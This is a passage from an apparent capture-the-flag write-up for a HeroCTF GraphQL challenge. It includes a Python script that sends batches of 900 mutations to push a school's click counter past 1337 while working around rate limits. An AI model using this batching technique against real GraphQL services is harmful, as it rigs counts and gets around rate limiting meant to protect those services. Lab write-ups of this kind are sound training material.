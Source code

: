 ```bash
        "data": {
            "increaseClickSchool": {
                "schoolId": 3,
                "nbClick": 2
            }
        }
    },
    {
        "data": {
            "increaseClickSchool": {
                "schoolId": 3,
                "nbClick": 3
            }
        }
    }
]
```

Therefore, we can create a script that sends requests of this type to increase the score of the 'Flag CyberSecurity School' up to 1337.

```python
import requests
import time

url = "http://dyn-03.heroctf.fr:10048/graphql"
headers = {"Content-Type": "application/json"}
nbQuerySent = 900
simple_query = '{"query":"mutation { increaseClickSchool(schoolName: \\"Flag CyberSecurity School\\"){schoolId, nbClick} }"}'
data = "[" + (simple_query + ",") * nbQuerySent + simple_query + "]"

nbIncrement = 0
while True:
    r = requests.post(url, headers=headers, data=data)
    if r.status_code == 200:
        print("Added " + str(nbQuerySent) + " clicks to Flag CyberSecurity School")
        nbIncrement += 1
        if nbIncrement * nbQuerySent > 1337:
            print("Flag CyberSecurity School has been clicked " + str(nbQuerySent * nbIncrement) + " times")
            break
    elif r.status_code == 429:
        print("Rate limit exceeded, waiting 1 second...")
        time.sleep(1)
    else:
        print("Error: " + str(r.text))
        break
```

We send packets of 900 requests because exceeding this number would exceed the maximum payload size to be sent.
